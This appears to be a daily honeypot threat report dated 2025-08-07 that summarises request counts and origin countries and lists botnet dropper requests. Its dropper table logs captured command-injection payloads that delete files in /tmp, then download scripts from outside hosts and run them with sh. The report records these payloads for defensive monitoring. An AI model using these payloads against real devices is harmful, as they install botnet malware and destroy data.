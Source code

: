 ```yaml
---
title: "Report: 2025-08-07 "
date: 2025-08-07
desciption: "Report: 2025-08-07" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-07 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 48 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 675 requests were recorded during the day, originating from 6 different countries, with a peak of 375 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                              |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------|
| 41.34.105.247   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                         |
| 41.45.27.15     | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                         |
| 197.246.60.155  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                         |
| 8.219.161.97    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                         |
| 156.195.151.174 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                         |
| 95.9.44.188     | GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd+/tmp;wget+http://unjiproxy.p-e.kr:6969/selftbk.sh+-O-|sh HTTP/1.1 |
